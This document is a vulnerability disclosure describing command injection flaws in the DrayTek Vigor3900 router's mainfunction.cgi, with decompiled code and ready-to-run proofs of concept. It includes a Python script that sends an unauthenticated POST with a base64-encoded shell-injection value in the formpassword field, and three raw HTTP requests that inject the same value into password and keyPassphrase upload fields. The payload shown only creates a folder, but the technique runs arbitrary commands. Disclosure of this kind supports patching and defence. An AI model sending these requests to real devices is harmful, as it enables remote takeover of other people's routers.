


# Unauthorized command injection vulnerability exists in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. The function is `sub_2C920`. Because of this file Improper consideration when filtering the values of relevant fields when processing requests. If the victim has turned on the phone number authentication function and the number is known, the attacker can construct a malicious `HTTP` message without authentication. , thereby executing arbitrary code remotely. The vulnerability point is shown in the figure below.



As can be seen from the above figure, `v37` is affected by `v38`, and `v37` is passed to the `sub_21F28` function as an explanation, and this function is used to execute shell commands. The code is as follows.

```python
const char *__fastcall sub_21F28(const char *a1)
{
  FILE *v1; // r0
  FILE *v2; // r4
  const char *v3; // r5
  const char *v4; // r4

  v1 = popen(a1, "r");
  v2 = v1;
  v3 = (const char *)v1;
  if ( v1 )
  {
    v3 = (const char *)sub_12D78(v1, "CGI: run_command() failed open command stream");
    pclose(v2);
    if ( v3 )
    {
      if ( *v3 )
      {
        v4 = &v3[strlen(v3)];
        if ( isspace(*((unsigned __int8 *)v4 - 1)) )
          *((_BYTE *)v4 - 1) = 0;
      }
    }
  }
  else
  {
    syslog(6, "CGI: run_command() failed open command stream");
  }
  return v3;
}
```

At the same time, the value of `v38` comes from the value of the `formpassword` field, which is decoded by `base64`, the string filter function `filter_string2`, and finally assigned to `v38`, so we can control the value of the `formpassword` field so that Form command injection.


And for the filter function, the code is as follows. It can be seen that this function does not filter dangerous characters such as `&`, `space`, `''`, etc., so it can form a command injection vulnerability.

```c
unsigned __int8 *__fastcall filter_string2(unsigned __int8 *result)
{
  unsigned __int8 *i; // r2
  int v2; // r3
  bool v3; // zf
  _BOOL4 v4; // r3

  for ( i = result; i; ++i )
  {
    v2 = *i;
    v3 = v2 == ';';
    if ( v2 != ';' )
      v3 = v2 == 37;
    if ( v3 || v2 == '`' || v2 == '|' || v2 == '>' || v2 == '\t' || v2 == '\n' || v2 == '\r' )
    {
      *i = 43;
    }
    else
    {
      if ( v2 == '"' )
        goto LABEL_20;
      if ( v2 == '\'' )
      {
        *i = '\'';
        continue;
      }
    }
    v4 = *i == '$';
    if ( i == (unsigned __int8 *)-1 )
      v4 = 0;
    if ( v4 && i[1] == '(' )
    {
      LOBYTE(v2) = '+';
      i[1] = '+';
LABEL_20:
      *i = v2;
    }
    if ( !*i )
      return result;
  }
  return result;
}
```


## 3、Vulnerability Verification

The constructed `POC` is as follows, in which the device needs to enable the phone number authentication function and know the user's phone number.

```python
import requests
import base64

def send_post_request(ip, formpassword, phonenumber):
    # Base64 encode the formpassword
    encoded_password = base64.b64encode(formpassword.encode())

    # Define the URL dynamically based on the provided IP
    url = f"http://{ip}/cgi-bin/mainfunction.cgi"
    
    # Define the payload with the base64 encoded formpassword and phonenumber as a parameter
    payload = {
        "action": "authuser",
        "formusername": "MTIzNDU2",  # This can be modified as needed
        "formpassword": encoded_password,
        "URL": "www.baidu.com",
        "HOST": "10.10.10.1",
        "PHONENUMBER": phonenumber  # Pass the phonenumber parameter
    }

    # Define the headers
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "text/plain; charset=UTF-8",
        "Accept": "*/*",
        "Origin": f"http://{ip}",
        "Referer": f"http://{ip}/",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }

    # Send the POST request
    response = requests.post(url, headers=headers, data=payload)

    # Print the response
    print(response.text)

# Example usage
send_post_request("10.10.10.2", "' & mkdir a & '", "12345678")
```

The running results are as follows. You can see that the `a` folder is created under the `www/cgi-bin` folder.

## 4. Post-authorization command injection vulnerability

### (1) The first place

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file and the function is `sub_11DC8`.


`poc` is as follows

```
POST /cgi-bin/mainfunction.cgi/certificaterequestupload HTTP/1.1
Host: 10.10.10.2
Content-Length: 420
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydnD4qnkyAGAMoKSW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.2/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID_VIGOR=7:AD9449AD522C076533749160C5360255; lang=zh-cn
Connection: close

------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="select"

remote
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="password"

' & mkdir a & '
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="selectfile"; filename="a.all"
Content-Type: application/octet-stream
    
11111111111

------WebKitFormBoundarydnD4qnkyAGAMoKSW--
```

The experimental results are as follows


### (2) The second place

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file and the function is `sub_11F38`.


`poc` is as follows

```
POST /cgi-bin/mainfunction.cgi/userkeyupload HTTP/1.1
Host: 10.10.10.2
Content-Length: 420
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydnD4qnkyAGAMoKSW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.2/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID_VIGOR=7:AD9449AD522C076533749160C5360255; lang=zh-cn
Connection: close

------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="certType"

trustca
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="keyPassphrase"

' & mkdir a & '
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="selectfile"; filename="a.all"
Content-Type: application/octet-stream
    
11111111111

------WebKitFormBoundarydnD4qnkyAGAMoKSW--
```

or

```
POST /cgi-bin/mainfunction.cgi/userkeyupload HTTP/1.1
Host: 10.10.10.2
Content-Length: 420
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydnD4qnkyAGAMoKSW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.2/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID_VIGOR=7:AD9449AD522C076533749160C5360255; lang=zh-cn
Connection: close

------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="certType"

usercertificate
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="keyPassphrase"

' & mkdir a & '
------WebKitFormBoundarydnD4qnkyAGAMoKSW
Content-Disposition: form-data; name="selectfile"; filename="a.all"
Content-Type: application/octet-stream
    
11111111111

------WebKitFormBoundarydnD4qnkyAGAMoKSW--
```

The effect is as follows



## 5、Reporter

- #### ✨jfkk (jfkk2331997024@gmail.com)
